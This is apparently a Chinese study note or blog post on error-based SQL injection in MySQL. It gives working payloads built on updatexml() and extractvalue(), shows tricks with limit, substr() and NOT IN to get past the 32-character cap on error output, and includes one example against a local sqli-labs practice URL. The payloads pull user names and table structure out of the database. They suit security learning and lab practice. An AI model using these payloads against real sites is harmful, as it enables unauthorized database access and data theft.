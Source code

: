 ```yaml
---
catalog: true
tags:
    web
    sql
---
```

## 报错注入常用的函数
### updatexml()
### extractvalue()
![4](/img/sql4.png)  
![5](/img/sql5.png)  
---

>XPath限制报错内容长度不能超过32个字符
>   常见的解决方法有：  
>	limit 分页  
>   substr()截取字符 
---
### 1.limit 分页
```sql
	?id=-1' and updatexml(1,concat(0x7e,  
	(select user  
	from mysql.user limit 1,1)),3) --+  
```
### 2.substr()截取字符
```sql
	?id=-1' and updatexml(1,concat(0x7e,  
	substr(  
		(select group_concat(user)  
		from mysql.user), 1 , 31)  
),3) --+  
``` 
### 3.not in排除字符
```sql
	http://192.168.3.7/sqli-labs-master/Less-5/?id=-1' and extractvalue(1,concat(0x7e,(select   group_concat(column_name) from information_schema.columns where table_name='users' and   column_name not in ('USER','CURRENT_CONNECTIONS','TOTAL_CONNECTIONS')),0x7e)) %23  
```

## 附加一个宽字节注入
>仅限于中文  
![6](/img/sql6.png)